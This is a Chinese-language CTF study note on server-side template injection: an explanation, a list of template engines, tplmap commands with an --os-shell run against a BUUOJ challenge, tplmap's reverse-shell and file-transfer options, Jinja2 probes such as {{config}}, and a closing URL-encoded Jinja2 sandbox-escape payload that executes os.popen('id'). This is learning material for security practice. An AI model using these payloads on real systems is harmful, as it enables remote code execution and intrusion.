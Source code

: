 # SSTI

**啥是SSTI**
SSTI （服务器端模板注入），指服务端接收了用户的恶意输入以后，未经任何处理就将其作为 Web 应用模板内容的一部分，模板引擎在进行目标编译渲染的过程中，执行了用户插入的可以破坏模板的语句，因而可能导致了敏感信息泄露、代码执行、GetShell 等问题.

**这种模板请不要认为只存在于 Python 中，请记住，凡是使用模板的地方都可能会出现 SSTI 的问题，SSTI 不属于任何一种语言，沙盒绕过也不是**


[文章思路来自大佬文章谢谢大佬](https://www.k0rz3n.com/2018/11/12/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E7%90%86%E8%A7%A3%E6%BC%8F%E6%B4%9E%E4%B9%8BSSTI%E6%BC%8F%E6%B4%9E/)

### 使用工具测试注入

[SSTI检测工具](https://github.com/epinna/tplmap)

工具是python2的 (安装的时候可没把我坑惨，好几个教学都说是py3，老复制粘贴了。)

[简单案例](https://www.cnblogs.com/LEOGG321/p/13441283.html)

语句：
```bash
pip install --upgrade pip # 先更新一下pip 如果是最新的就跳过
pip install -r requirements.txt # 安装依赖
python ./tplmap.py -u 'http://4ed902ae-b677-45c3-a0c1-4c8a88af7f07.node3.buuoj.cn/qaq?name=1*' # 在存在注入或者想要测试的地方加* 和sqlmap很像。

```

可以输入的指令
```
[+] Rerun tplmap providing one of the following options:

    --os-shell				Run shell on the target
    --os-cmd				Execute shell commands
    --bind-shell PORT			Connect to a shell bind to a target port
    --reverse-shell HOST PORT	Send a shell back to the attacker's port
    --upload LOCAL REMOTE	Upload files to the server
    --download REMOTE LOCAL	Download remote files
```

实例:
```bash
python ./tplmap.py -u 'http://4ed902ae-b677-45c3-a0c1-4c8a88af7f07.node3.buuoj.cn/qaq?name=1*' --engine=Jinja2 --os-shell # 指定目标引擎
```
![](img/1.png)

`ls ../`
发现flag
`cat /flag`
找到文件

![](img/2.png)

### 手工注入

**常见的模板引擎**

- php常用
  - Smarty
    Smarty算是一种很老的PHP模板引擎了，非常的经典，使用的比较广泛

  - Twig
    Twig是来自于Symfony的模板引擎，它非常易于安装和使用。它的操作有点像Mustache和liquid。

  - Blade
    Blade 是 Laravel 提供的一个既简单又强大的模板引擎。

- Java常用
  - JSP
    这个引擎我想应该没人不知道吧，非常的经典

  - FreeMarker
    FreeMarker是一款模板引擎： 即一种基于模板和要改变的数据， 并用来生成输出文本（HTML网页、电子邮件、配置文件、源代码等）的通用工具。 它不是面向最终用户的，而是一个Java类库，是一款程序员可以嵌入他们所开发产品的组件。
  - Velocity

- python 常用
  - Jinja2
    flask jinja2 一直是一起说的，使用非常的广泛
    https://buuoj.cn/challenges
    的 `[BJDCTF 2nd]fake google` 这一关

  - django
    django 应该使用的是专属于自己的一个模板引擎，我这里姑且就叫他 django，我们都知道 django 以快速开发著称，有自己好用的ORM，他的很多东西都是耦合性非常高的，你使用别的就不能发挥出 django 的特性了
  - tornado
    tornado 也有属于自己的一套模板引擎，tornado 强调的是异步非阻塞高并发

### SSTI的危害和利用

> 单纯的字符串拼接并不能带来注入问题，关键要看你拼接的是什么，如果是控制语句，就会造成数据域与代码域的混淆，这样就会出洞.

[CTF SSTI(服务器模板注入)](https://www.cnblogs.com/20175211lyz/p/11425368.html)

当然，这种情况一般不属于模板引擎的问题，大多数原因都是开发者并没有很好的处理
可以参考：
[SSTI 怎么产生的](https://www.k0rz3n.com/2018/11/12/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E7%90%86%E8%A7%A3%E6%BC%8F%E6%B4%9E%E4%B9%8BSSTI%E6%BC%8F%E6%B4%9E/)
对三种语言进行代码上的解析。

区分代码

![](img/3.png)

- jinja2:`尝试{{7*'7'}}回显 7777777`


2020.10.27
- 更新SSTI服务器模板注入


使用 jinja2举例

模板
```
{{ ... }}：装载一个变量，模板渲染的时候，会使用传进来的同名参数这个变量代表的值替换掉。
{% ... %}：装载一个控制语句。
{# ... #}：装载一个注释，模板渲染的时候会忽视这中间的值
```

一些简单注入
```
{{config}}可以获取当前设置
{{self}}
{{self.__dict__._TemplateReference__context.config}} 同样可以看到config
```


变量

在模板中添加变量，可以使用（set）语句。

```
{% set name='xx' %}
```



```url
{%%20for%20c%20in%20[].__class__.__base__.__subclasses__()%20%}%20{%%20if%20c.__name__%20==%20%27catch_warnings%27%20%}%20{%%20for%20b%20in%20c.__init__.__globals__.values()%20%}%20{%%20if%20b.__class__%20==%20{}.__class__%20%}%20{%%20if%20%27eval%27%20in%20b.keys()%20%}%20{{%20b[%27eval%27](%27__import__(%22os%22).popen(%22id%22).read()%27)%20}}%20{%%20endif%20%}%20{%%20endif%20%}%20{%%20endfor%20%}%20{%%20endif%20%}%20{%%20endfor%20%}
```























